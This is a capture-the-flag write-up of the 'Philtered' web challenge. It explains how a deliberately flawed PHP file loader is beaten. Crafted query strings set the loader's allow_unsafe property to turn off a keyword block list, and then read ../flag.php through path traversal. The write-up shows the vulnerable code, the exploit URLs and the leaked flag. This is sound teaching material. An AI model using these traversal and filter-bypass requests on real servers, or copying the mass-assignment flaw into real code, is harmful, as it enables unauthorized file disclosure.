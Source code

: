```yaml
---
layout: writeup
title: Philtered
tags: WebX
excerpt: "Can you phigure this one out?"
---
```


## Description

Dear Raahguu,

Can you phigure this one out?

Regards,
sidd.sh

And then you also got the backend code for the website

## Solution

The Descrption didn't give us much to go off, so we started off by looking through the source code. The only important part you need to know is the index.php file

```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];

    public function __construct() {
        $this->config = new Config();
    }

    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader();
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

Other then thhat you need to know that at the same directory level as `index.php` existed `flag.php` which contained the code:

```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```

As the `flag.php` code just sets a variable server side, navigating to it directly returns nothing, so we instead need to find some way to read the file or to execute it and then later print out the `$flag` variable

Luckily in index.php the get request specifies what file to load the data from in the `load` method.

```php
public function load() {
	return file_get_contents($this->config->data_folder . $this->config->path);
}
```

The only problem with just reading out the `flag.php` file, is that the request is filtered and so the strings `php, :, .., /, \\, filter, flag, etc` are not allowed as long as `allow_unsafe` is turned false.

An example of how this should be used is:

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?config[path]=our-values.txt`

![picture of the website showing how we caused the our-values.txt file to be read and loaded onto the page due to the command](/assets/images/writeups_images/Philtered/1.png)

This shows how due to the three lines in the php:

```php
$loader = new FileLoader();
$loader->assign_props($_GET);
...
$content .= "<p>" . $loader->load() . "</p>";
```

we can insert text from whatever file we want on the server.

Trying to go straight for the flag we get

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?config[path]=../flag.php`

![picture of the website showing how instead of reading out flag.php, we got the text `You've just been philtered!`](/assets/images/writeups_images/Philtered/2.png)

This just has the text `You've just been philtered` Note: that text is the contents of the `data/philtered.txt`

This file has been read instead of the flag because we tripped the filter code:

```php
// These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];

	...

    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;
                }
            }
        }
        return false;
    }
```

So we need to get around the filter before we can even load the `flag.php` file. Luckily, the filter checks if the FileLoader instance calling it has the attribute `allow_unsage` set to false before filtering. Luckily though, due to how the `assign_props` method that we used to allows us to set `config[path]` we can also set `allow_unsafe`

So by just adding `allow_unsafe=true` into the query, we can now go to whatever file we want, so lets do that. Warning, due to the interprative nature of how `assign_props` works, you need to define `allow_unsafe` before you set the path, or you will still be filtered.

`https://web-philtered-0a2005e5b9bf.2025.ductf.net/?allow_unsafe=true&config[path]=../flag.php`


![picture of the website showing their being nothing in the area where we control the content](/assets/images/writeups_images/Philtered/3.png)


The website should be loading in `flag.php` yet nothing is there. This is becuase the `flag.php` file is being loaded in, but as it isn't actual html code or normal text, it is instead being loaded in as a comment, so by viewing the html code you can see

```html
...
<h2>Welcome to Philtered</h2>
<p>
	<!--?php $flag = 'DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}'; ?-->
</p>
<h3>About Us</h3>
...
```

And there the flag is `DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}`
